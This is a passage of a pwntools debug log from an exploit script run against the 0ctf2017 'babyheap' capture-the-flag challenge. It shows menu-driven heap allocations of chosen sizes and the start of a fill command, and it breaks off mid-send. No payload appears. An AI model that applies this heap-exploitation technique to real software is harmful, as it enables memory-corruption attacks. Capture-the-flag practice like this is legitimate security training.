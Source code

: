 ``` Python LOG
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'152\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 3\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x3 bytes:
    b'24\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 4\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'104\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 5\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x3 bytes:
    b'24\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 6\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("2")
[DEBUG] Sent 0x2 bytes:
    b'2\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(index))
[DEBUG] Sent 0x2 bytes:
    b'0\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(size))
[DEBUG] Sent 0x3 bytes:
```